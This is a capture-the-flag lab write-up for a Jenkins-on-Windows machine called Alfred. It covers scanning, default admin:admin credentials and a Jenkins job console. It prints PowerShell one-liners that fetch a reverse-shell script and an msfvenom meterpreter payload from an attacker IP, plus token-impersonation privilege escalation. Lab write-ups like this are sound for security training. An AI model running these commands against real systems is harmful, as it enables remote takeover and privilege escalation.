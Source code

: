 # ALFRED
```
IP = 10.10.171.58
```

+ Ran initial nmap scan and gobuster
+ Found three ports open [80, 3389, 8080]
+ Jenkins on 8080
+ robots.txt on 8080 
```
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```
+ Tried to bruteforce the username and password with hydra, burpsuite, etc
+ Tried gobuster, nikto and searchsploit dir traversal
+ None worked, randomly guessed username and password and it worked!
+ `admin:admin`
+ Found a location in the GUI that allows me to execute windows batch command at `/job/project/configure`
+ Started serving the opt folder containing the reverse powershell script using python
+ Got access into the system as bruce\alfred using `powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.4.238:9001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.4.238 -Port 9002`
+ Created a payload using `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.4.238 LPORT=9005 -f exe -o shell-name.exe prependmigrateprocess=explorer.exe prependmigrate=true`
+ Moved the payload to opt/windows folder and downloaded to the machine using `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.4.238:9001/shell-name.exe','shell-name.exe')"`
+ Setup reverse handler with LHOST as 10.11.4.238 and LPORT as 9005
+ Ran the exe using `Start-Process "shell-name.exe"` and caught the reverse shell as meterpreter
+ Now privilege escalation using token impersonation
+ List tokens using `list_tokens -g`
+ Used `impersonate_token "BUILTIN\Administrators"` to get admin priv
+ Can also use getsystem to obtain admin
